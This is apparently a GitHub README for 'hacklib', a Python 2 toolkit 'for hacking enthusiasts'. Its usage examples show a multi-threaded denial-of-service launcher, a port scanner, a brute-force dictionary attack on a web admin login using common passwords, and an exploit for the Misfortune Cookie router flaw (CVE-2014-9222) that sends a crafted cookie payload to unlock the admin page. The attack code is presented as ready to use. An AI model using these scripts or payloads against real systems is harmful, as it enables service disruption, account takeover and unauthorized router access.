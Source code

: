 # hacklib
![MIT License](https://img.shields.io/github/license/mashape/apistatus.svg)
[![Python 2.6|2.7](https://img.shields.io/badge/python-2.6|2.7-yellow.svg)](https://www.python.org/)
##### Toolkit for hacking enthusiasts using Python.
hacklib is a Python module for hacking enthusiasts. It is currently in its barebones stages.

#### Examples of Usage
-
Multi-threaded Denial of Service (DOS) Stress-Testing:
```python
import hacklib

dos = hacklib.DOSer()
dos.launch('http://yourwebsite.com', duration=30, threads=50)
```
-
Port Scanning:
```python
from hacklib import *

ps = PortScanner()
ps.scan(getIP('yourwebsite.com'))
# By default scans the first 1024 ports with 1 second timeout. Use ps.scan(IP, port_range=n, timeout=i) to change default

# After a scan, open ports are saved within ps for reference
if ps.portOpen(80):
    # Establish a TCP stream and sends a message
    send(getIP('yourwebsite.com'), 80, message='GET HTTP/1.1 \r\n')
```
-
Universal Login for almost all HTTP/HTTPS form-based logins and HTTP Basic Authentication logins:

```python
import hacklib

ac = hacklib.AuthClient()
# AuthClient uses the mechanize module for form-based logins

# Attempts to login and return the HTML of the resulting page
htmldata = ac.login('http://yourwebsite.com/login', 'username', 'password')

# For form-based logins, returns HTML whether login works or not.
# Returns False if resulting page has the same URL as the login page
if htmldata and 'try again' not in htmldata.lower():
    print 'Login Success'

# Returns False if login fails using HTTP Basic Authentication
if htmldata:
    print 'Login Success'
```
Simple Dictionary Attack using AuthClient:
```python
import hacklib

ac = hacklib.AuthClient()
# Get the top 100 most common passwords
passwords = hacklib.topPasswords(100)

for p in passwords:
    htmldata = ac.login('http://yourwebsite.com/login', 'admin', p)
    if htmldata and 'welcome' in htmldata.lower():
        print 'Password is', p
        break
    # For HTTP Basic Authentication logins, simply use 'if htmldata:'
```

#### Combining the Tools
-
Misfortune Cookie Exploit:
```python
# CVE-2014-9222
>>> import hacklib

# Discovery
>>> ps = hacklib.PortScanner()
>>> ps.scan('192.168.1.1', 81)
Port 80:
HTTP/1.1 404 Not Found
Content-Type: text/html
Transfer-Encoding: chunked
Server: RomPager/4.07 UPnP/1.0
EXT:
# The banner for port 80 shows us that the server uses RomPager/4.07. This is exploitable.

# Exploitation
>>> payload = '''GET /HTTP/1.1
Host: 192.168.1.1
User-Agent: googlebot
Accept: text/html, application/xhtml+xml, application/xml; q=09, */*; q=0.8
Accept-Language: en-US, en; q=0.5
Accept-Encoding: gzip, deflate
Cookie: C107351277=BBBBBBBBBBBBBBBBBBBB\x00''' + '\r\n\r\n'
>>> hacklib.send('192.168.1.1', 80, payload)
# The cookie replaced the firmware's Assembly code for web authentication with a null bye.
# The router's admin page is now fully accessible.
```
